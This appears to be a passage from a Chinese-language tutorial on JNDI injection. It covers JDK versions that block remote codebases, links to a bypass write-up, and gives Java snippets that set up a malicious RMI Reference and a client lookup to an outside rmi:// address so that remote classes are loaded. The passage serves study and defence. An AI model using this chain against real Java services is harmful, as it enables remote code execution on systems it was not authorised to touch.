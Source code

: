 增加了com.sun.jndi.rmi.object.trustURLCodebase选项，默认为false，禁止RMI和CORBA协议使用远程codebase的选项，因此RMI和CORBA在以上的JDK版本上已经无法触发该漏洞，但依然可以通过指定URI为LDAP协议来进行JNDI注入攻击。

JDK 6u211、7u201、8u191之后：

增加了com.sun.jndi.ldap.object.trustURLCodebase选项，默认为false，禁止LDAP协议使用远程codebase的选项，把LDAP协议的攻击途径也给禁了。

高版本绕过：

https://kingx.me/Restrictions-and-Bypass-of-JNDI-Manipulations-RCE.html

### JNDI-Injection & marshalsec 实现原理

> RMI调用
>
> bind：将名称绑定到对象中；
>
> lookup：通过名字检索执行的对象；
>
> Reference类表示对存在于命名/目录系统以外的对象的引用。
>
> Reference参数：
>
> className：远程加载时所使用的类名；
>
> classFactory：加载的class中需要实例化类的名称；
>
> classFactoryLocation：远程加载类的地址，提供classes数据的地址可以是file/ftp/http等协议；

Registry首先启动，并监听一个端口，一般是1099：

```java
Registry registry = LocateRegistry.createRegistry(1099);
```

在这里，createRegistry(1099) 方法启动 RMI 注册表，并监听在端口 1099 上。

Server向Registry注册远程对象：

```java
Reference reference = new Reference("Calc", "Calc", "http://localhost/");
ReferenceWrapper wrapper = new ReferenceWrapper(reference);
registry.bind("calc", wrapper);
```

服务器创建一个 Reference 对象，包含用于远程加载的类信息，然后将该 Reference 对象包装成 ReferenceWrapper，最后通过 registry.bind 注册到 RMI 注册表中，使用名字 “calc”。

Client从Registry获取远程对象的代理：

```java
Object remoteObject = context.lookup("rmi://47.94.236.117:1099/calc");
```

客户端获取 RMI 注册表的上下文，并通过 lookup 方法查找名为 “calc” 的远程对象，返回其代理。

Client通过这个代理调用远程对象的方法：

```java
// 可以将返回的 remoteObject 转换为具体的远程接口类型，然后调用远程方法
// 例如：CalcInterface calc = (CalcInterface) remoteObject;
// 远程方法调用示例
// 例如：calc.performCalculation();
```

